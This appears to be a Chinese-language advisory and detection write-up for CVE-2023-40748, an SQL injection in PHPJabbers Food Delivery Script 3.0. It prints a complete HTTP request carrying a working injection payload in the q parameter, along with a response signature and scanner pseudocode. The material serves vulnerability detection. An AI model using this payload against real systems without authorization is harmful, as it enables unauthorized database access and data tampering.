

# PHPJabbers Food Delivery Script 3.0 SQL 注入漏洞（CVE-2023-40748）

## 漏洞简介
PHPJabbers Food Delivery Script 3.0 存在 SQL 注入漏洞，攻击者可通过 `index.php` 文件的 `q` 参数注入恶意 SQL 语句，进而执行任意 SQL 命令，造成敏感信息泄露、数据篡改等严重后果。

## 影响范围
- 受影响产品：PHPJabbers Food Delivery Script 3.0
- CPE: `cpe:2.3:a:phpjabbers:food_delivery_script:3.0:*:*:*:*:*:*:*`

## 漏洞原理
后端未对 `q` 参数进行有效过滤，直接拼接到 SQL 查询语句，导致攻击者可通过构造特殊参数实现 SQL 注入。

## 利用方式与攻击流程
1. 攻击者向 `/index.php` 接口发送带有恶意 `q` 参数的 POST 请求。
2. 通过如 `q=-1910') OR 6100=6100#` 等注入语句，利用响应内容回显注入结果，确认漏洞存在。
3. 若验证成功，攻击者可进一步利用漏洞进行数据窃取、篡改等操作。

## 探测原理与流程
### 请求包示例
```http
POST /index.php?controller=pjAdminOrders&action=pjActionGetNewOrder&column=created&direction=ASC&page=1&rowCount=50&q=-1910')+OR+6100=6100%23&type= HTTP/1.1
Host: target.com
Content-Length: 0
```

### 响应示例
```http
HTTP/1.1 200 OK
...
class <strong>pjAdminOrdersaction
...
didn't exists
```

### 判定逻辑
- 响应状态码为 200。
- 响应体中同时包含 `class <strong>pjAdminOrdersaction` 和 `didn't exists`。

### 伪代码
```python
send_post(
    url="/index.php?controller=pjAdminOrders&action=pjActionGetNewOrder&column=created&direction=ASC&page=1&rowCount=50&q=-1910')+OR+6100=6100%23&type=",
    data=""
)
if response.status_code == 200 and "class <strong>pjAdminOrdersaction" in response.text and "didn't exists" in response.text:
    print("存在 SQL 注入漏洞")
```

### Mermaid 流程图


## 参考链接
- [漏洞分析与利用](https://medium.com/@tfortinsec/multiple-vulnerabilities-in-phpjabbers-part-3-40fc3565982f)
- [NVD 官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2023-40748) 